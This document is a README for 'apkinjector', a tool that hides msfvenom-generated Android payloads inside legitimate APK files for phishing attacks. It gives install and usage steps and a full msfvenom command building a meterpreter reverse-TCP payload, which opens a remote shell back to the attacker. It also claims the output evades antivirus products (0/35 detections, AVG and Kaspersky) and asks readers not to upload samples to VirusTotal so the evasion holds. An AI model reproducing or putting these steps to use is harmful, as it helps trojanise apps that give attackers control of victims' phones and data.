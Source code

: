# apkinjector
Android APK Antivirus evasion for msfvenom generated payloads to inject into another APK file for phishing attacks.
<br><br>
<b> -- Please do not upload "injected" files to VirusTotal.com -- </b><br>
<br>
<br>
<b>Still a work in progress. If having to manually locate the .smali file that is launched with the app, then you are looking for the MAIN and LAUNCHER calls and the .smali reference will be above it that you can use for manually pointing to it. Still working on automating it every time. If still having issues, then manually utilize APKTool on the .apk file to decomile, then recompile it. If it doesn't recompile, then the script will not work anyways. For debugging be sure to comment out the removal of the /tmp/original directory so you can review the files to see what happened. </b>
<br><br>
<b>Setup:</b><br>
chmod +x apkinjector<br>
mv apkinjector /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<b>NOTE:</b> If wanting to customize each signature, then remove the keystore before running the script.<br>
<br>
<b>Usage:</b><br>
apktool \<payload>.apk \<original>.apk<br>
<br>
<b>Input:</b><br>
This script takes a msfgenerated payload as input along with an .apk you want to inject into.<br>
To generate the payload: msfvenom -p android/meterpreter/reverse_tcp LHOST=<IP> LPORT<PORT> -o \<payload>.apk<br>
<br>
<b>Output:</b><br>
injected_\<original>.apk<br>
<br>
<b>Antivirus detection:</b><br>
0/35 on nodistribute - 16Feb17<br>
Verified for AVG mobile<br>
Verified for Kaspersky mobile<br>
<br>
<br>
<b>Debugging</b><br>
Comment out the removal of the /tmp/payload and /tmp/original directories to see the file structure that was compiled.<br>
